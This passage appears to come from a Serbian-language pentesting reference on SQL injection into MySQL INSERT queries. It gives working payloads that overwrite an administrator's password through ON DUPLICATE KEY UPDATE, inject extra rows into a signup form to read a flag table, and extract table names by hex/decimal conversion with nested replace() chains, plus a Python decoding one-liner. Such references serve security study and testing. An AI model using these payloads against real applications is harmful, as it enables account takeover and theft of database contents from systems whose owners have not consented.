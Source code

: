 Primer Payload Injection:

Payload za ubacivanje može biti kreiran na sledeći način, gde se pokušava ubaciti dva reda u tabelu `users`. Prvi red je mamac, a drugi red cilja postojeći administratorski email sa namerom da se ažurira lozinka:

```sql
INSERT INTO users (email, password) VALUES ("generic_user@example.com", "bcrypt_hash_of_newpassword"), ("admin_generic@example.com", "bcrypt_hash_of_newpassword") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_newpassword" -- ";
```

Evo kako to funkcioniše:

* Upit pokušava da unese dva reda: jedan za `generic_user@example.com` i drugi za `admin_generic@example.com`.
* Ako red za `admin_generic@example.com` već postoji, klauza `ON DUPLICATE KEY UPDATE` se aktivira, naređujući MySQL-u da ažurira polje `password` postojećeg reda na "bcrypt\_hash\_of\_newpassword".
* Kao rezultat toga, autentifikacija se može pokušati koristeći `admin_generic@example.com` sa lozinkom koja odgovara bcrypt hash-u ("bcrypt\_hash\_of\_newpassword" predstavlja bcrypt hash nove lozinke, koji treba zameniti stvarnim hash-om željene lozinke).

### Izvlačenje informacija

#### Kreiranje 2 naloga istovremeno

Prilikom pokušaja kreiranja novog korisnika, potrebni su korisničko ime, lozinka i email:

```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```

#### Korišćenje decimalnog ili heksadecimalnog broja

Pomoću ove tehnike možete izvući informacije kreirajući samo 1 nalog. Važno je napomenuti da ne morate komentarisati ništa.

Korišćenje **hex2dec** i **substr**:

```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

Da biste dobili tekst, možete koristiti:

```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```

Korišćenje **hex** i **replace** (i **substr**):

```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
